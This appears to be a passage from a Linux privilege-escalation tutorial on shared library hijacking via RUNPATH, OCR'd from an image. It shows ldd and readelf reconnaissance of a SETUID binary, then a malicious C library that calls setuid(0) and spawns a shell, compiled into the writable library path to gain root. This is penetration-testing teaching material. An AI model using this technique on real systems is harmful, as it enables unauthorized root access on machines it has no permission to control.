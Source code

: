 Programs and binaries under development usually have custom libraries associated with them. Consider the following SETUID binary. We can use ldd to print the shared object required by a binary or shared object. Ldd displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.
````
$ ldd payroll
libshared.so => /development/libshared.so (0x00007f0c13112000)
````
We see a non-standard library named libshared.so listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the RUNPATH configuration. Libraries in this folder are given preference over other folders. This can be inspected using the readelf utility.
````
$ readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
````
Before compiling a library, we need to find the function name called by the binary.
````
$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
$ ./payroll 
./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
````
We can copy an existing library to the development folder. Running ldd against the binary lists the library's path as /development/libshared.so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named dbquery. 
````
$ cat src.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
````
````
$ gcc src.c -fPIC -shared -o /development/libshared.so
$ ./payroll 
Malicious library loaded
# id
uid=0(root)
````
````
$ chmod +x scanner_library_hijacking.sh
$ ./scanner_library_hijacking.sh
````

## Python Library Hijacking

Python is one of the world's most popular and widely used programming languages and has already replaced many other programming languages in the IT industry. There are very many reasons why Python is so popular among programmers. One of them is that users can work with a vast collection of libraries.
